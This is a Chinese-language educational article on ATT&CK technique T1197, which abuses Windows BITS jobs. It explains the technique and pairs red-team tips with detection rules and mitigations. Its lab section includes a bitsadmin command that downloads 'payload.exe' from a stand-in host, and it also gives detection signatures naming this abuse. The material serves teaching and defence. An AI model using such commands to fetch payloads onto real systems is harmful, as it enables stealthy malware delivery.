

# BITS作业 (T1197)

## 一句话通俗理解

**攻击者利用Windows的"后台下载服务"来偷偷下载恶意文件——这个服务本来是用来下载Windows更新的，流量看起来完全正常。**

## 难度等级

⭐️ 初级（新手可学）

BITS是Windows自带的功能，使用命令行工具即可操作。

## 技术描述

背景智能传输服务（BITS）是Windows的内置组件，用于在后台异步传输文件。Windows Update就是通过BITS来下载补丁的。BITS的任务可以在用户注销后继续运行，在系统重启后自动恢复，而且使用的带宽不会影响用户的正常网络使用。

**通俗解释：**
BITS就像Windows的"快递员"——平时专门负责送Windows更新的包裹。因为它是"官方快递员"，门口的保安（防火墙和杀毒软件）不会检查它的包裹。攻击者利用这个"官方快递员"来运送恶意软件，保安根本不会拦。

**技术原理：**
1. BITS使用HTTP/HTTPS协议下载文件
2. BITS任务在后台运行，不显示用户界面
3. BITS任务在系统重启后自动恢复（持久性）
4. BITS使用网络带宽的"空闲容量"，不影响正常网络使用
5. BITS的流量特征与Windows更新几乎无法区分

**用途与影响：**
主要用于隐蔽的载荷下载和上传。攻击者使用BITS来下载恶意软件的第二阶段载荷，或者将窃取的数据上传到外部服务器。由于流量看起来像正常的Windows更新，传统网络监控很难检测。

## 攻击流程



## 真实案例

### 案例1：勒索软件利用BITS下载加密模块（2024）

- **时间**: 2024年
- **目标**: 全球企业
- **手法**: 多种勒索软件家族在攻击链中使用BITS来下载勒索软件主体和加密模块。初始访问后，攻击者在受害机器上使用`bitsadmin /transfer`命令或PowerShell的`Start-BitsTransfer` cmdlet创建BITS下载任务。由于BITS任务的流量看起来像正常的Windows更新，传统防火墙和网络监控很难检测。
- **影响**: 勒索软件成功部署，企业数据被加密
- **参考链接**: [CISA网络安全公告](https://www.cisa.gov/news-events/cybersecurity-advisories)

### 案例2：APT组织利用BITS进行隐蔽载荷投递（2024）

- **时间**: 2024年
- **目标**: 政府和军事机构
- **手法**: 某APT组织在获得初始访问后，使用BITS来下载第二阶段的恶意工具包。BITS任务被配置为在失败时自动重试，并在系统重启后恢复。下载的文件保存在临时目录中，然后通过计划任务执行。由于BITS使用HTTP/HTTPS协议且流量模式与Windows更新相似，这种技术有效规避了网络层面的检测。
- **影响**: 长期潜伏在目标网络中
- **参考链接**: [CrowdStrike BITS滥用检测](https://www.crowdstrike.com/blog/bits-and-pieces-hunting-for-malicious-use-of-background-intelligent-transfer-service/)

### 案例3：Emotet利用BITS下载后续载荷（2024）

- **时间**: 2024年
- **目标**: 全球企业和个人用户
- **手法**: Emotet僵尸网络在感染系统后，使用BITS来下载其他恶意软件。BITS任务的使用使得Emotet的载荷投递更加隐蔽，因为网络流量看起来像合法的后台传输活动。
- **影响**: Emotet继续在全球范围内传播
- **参考链接**: [CISA AA21-076A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-076a)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| bitsadmin.exe | BITS命令行管理工具 | Windows | 系统自带 |
| Start-BitsTransfer | PowerShell BITS传输cmdlet | Windows | 系统自带 |

### 实战技巧

- 使用`bitsadmin /transfer`创建下载任务
- 使用PowerShell的`Start-BitsTransfer` cmdlet
- 设置任务在后台运行，不显示任何通知
- 利用BITS的重试和恢复机制确保持久化

## 蓝队视角

### 检测方法

- 监控bitsadmin.exe和Start-BitsTransfer的进程创建事件
- 启用Microsoft-Windows-Bits-Client/Operational事件日志
- 监控BITS任务的创建和修改，特别关注指向非标准域名的任务

## 缓解措施

### 优先级1：关键措施

**措施名称：** 限制bitsadmin.exe执行

**具体实施步骤：**
1. 通过AppLocker或WDAC限制bitsadmin.exe的执行权限，仅允许管理员执行
2. 使用软件限制策略（SRP）阻止非授权用户使用bitsadmin.exe
3. 对PowerShell的Start-BitsTransfer实施受控执行策略

**措施名称：** 启用PowerShell日志审计

**具体实施步骤：**
1. 启用PowerShell脚本块日志记录（Script Block Logging）
2. 启用PowerShell模块日志记录（Module Logging）
3. 监控Start-BitsTransfer等BITS相关PowerShell命令的调用

### 优先级2：重要措施

**措施名称：** 监控BITS事件日志

**具体实施步骤：**
1. 启用Microsoft-Windows-Bits-Client/Operational日志通道
2. 配置SIEM告警规则检测BITS任务的创建和修改操作
3. 重点关注指向非标准域名或IP地址的BITS传输任务

**措施名称：** 网络流量监控

**具体实施步骤：**
1. 监控BITS使用的HTTP/HTTPS流量，建立BITS传输基线
2. 标记指向非标准域名或异常目标IP的BITS请求
3. 检测BITS传输的异常文件类型和大小

### 优先级3：建议措施

**措施名称：** 限制BITS任务创建

**具体实施步骤：**
1. 通过组策略限制非管理员用户创建BITS任务的权限
2. 定期使用bitsadmin /list /allusers检查并清理遗留在系统中的BITS任务
3. 部署脚本自动化BITS任务审计

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1038 | 执行防护 | 适用 | 使用AppLocker/WDAC限制bitsadmin.exe执行 |
| M1045 | 软件限制 | 适用 | 启用PowerShell日志审计监控BITS命令调用 |
| M1029 | 系统审计日志 | 适用 | 启用BITS客户端操作日志（Operational） |
| M1031 | 网络隔离 | 适用 | 监控和限制BITS异常网络流量 |
| M1026 | 特权账户管理 | 适用 | 限制非管理员用户创建和管理BITS任务 |

## 检测建议

### 网络层检测

**检测方法：** 监控BITS后台传输服务的HTTP/S流量特征，特别是指向非标准域名、异常UA字符串或大文件下载的BITS请求。

**具体规则/命令示例：**
```
# 检测BITS的异常HTTP请求头
suricata -r traffic.pcap --rule "alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:\"BITS Job Suspicious Download\"; content:\"BitsAdmin\"; http_user_agent; nocase; sid:1000022;)"

# 检测BITS下载到非标准目录
zeek -r traffic.pcap http.log | grep -E "bitsadmin|Start-BitsTransfer" | grep -v "Windows"
```

### Sigma规则示例

```yaml
title: BITSAdmin Download
status: experimental
description: Detects BITSAdmin download of suspicious files
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\bitsadmin.exe'
        CommandLine|contains: '/transfer'
    condition: selection
level: medium
tags:
    - attack.t1197
```

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：创建BITS下载任务

```cmd
bitsadmin /transfer myJob /download /priority high https://example.com/payload.exe C:\temp\payload.exe
```

### 实验2：查看和清理BITS任务

```cmd
bitsadmin /list /allusers
bitsadmin /cancel <job_id>
bitsadmin /reset /allusers
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| BITS | Background Intelligent Transfer Service | Windows的"后台快递员" |
| bitsadmin.exe | BITS Admin | BITS的"遥控器"命令行工具 |
| Start-BitsTransfer | Start-BitsTransfer | PowerShell版BITS命令 |

## 参考资料

- [MITRE ATT&CK T1197官方页面](https://attack.mitre.org/techniques/T1197/)
- [Microsoft BITS文档](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)
- [Hunting for BITS Abuse](https://www.crowdstrike.com/blog/bits-and-pieces-hunting-for-malicious-use-of-background-intelligent-transfer-service/)
